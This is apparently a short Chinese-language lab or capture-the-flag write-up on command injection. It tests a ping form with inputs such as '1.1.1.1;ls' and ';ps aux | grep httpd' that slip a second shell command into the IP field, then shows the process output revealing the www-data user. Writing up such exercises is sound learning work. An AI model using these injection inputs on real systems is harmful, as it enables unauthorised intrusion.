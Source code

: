 # Command Injection

### 觀察
可以先隨便試看看，試著猜想它可能是用麼條件結尾或斷行

```
1.1.1.1 && ls
```
```
1.1.1.1&&ls
```

### 漸進式的測試
猜到 `;`，可以試試看有沒有更簡短或省時間的方式

```
1.1.1.1;ls
```

```
;pwd
```

```
;ps aux | grep httpd
```

```
www-data   645  0.0  0.0   4296   752 ?        S    05:44   0:00 sh -c ping  -c 4 ;ps aux | grep httpd
www-data   648  0.0  0.0  11120   992 ?        S    05:44   0:00 grep httpd
```

## Done

web service user is `www-data`

